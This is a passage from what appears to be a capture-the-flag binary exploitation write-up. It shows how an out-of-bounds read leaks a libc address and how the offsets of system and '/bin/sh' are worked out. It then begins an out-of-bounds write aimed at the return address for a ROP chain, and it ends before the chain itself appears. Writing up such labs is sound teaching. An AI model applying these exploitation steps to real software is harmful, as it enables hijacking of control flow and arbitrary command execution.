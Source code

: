 **2. Address of "/bin/sh" string:**
```bash
strings -a -t x libc.so.6 | grep "/bin/sh"
```
Output:
```
1d8698 /bin/sh
```
So "/bin/sh" is at offset `0x1d8698` from libc base.

**Final calculation:**
```python
libc_base = leaked - 0x21aaa0
system_addr = libc_base + 0x50d70
binsh_addr = libc_base + 0x1d8698
```

---

### Summary of Stage 1 - The Leak

**What we do:**
1. Edit area `-3` (out of bounds read)
2. Leak the HEIGHT field value
3. Calculate: `libc_base = leaked - 0x21aaa0`
4. Calculate: `system_addr = libc_base + 0x50d70`
5. Calculate: `binsh_addr = libc_base + 0x1d8698`

**Now we know where everything is!**

---

## Exploitation (Stage 2)

### Goal: Overwrite Return Address with ROP Chain

**Our target:** The return address at `RBP + 0x8`

**Our tool:** Out-of-bounds write using area `18`

---

### Why Area 18?

**Calculation:**
```
Return address location:  RBP + 0x8
Arrays start:             RBP - 0x2600
Distance:                 0x2608 bytes

Number of areas:          0x2608 ÷ 0x220 = 17.78...

So areas[18] will overlap with the return address area!
```
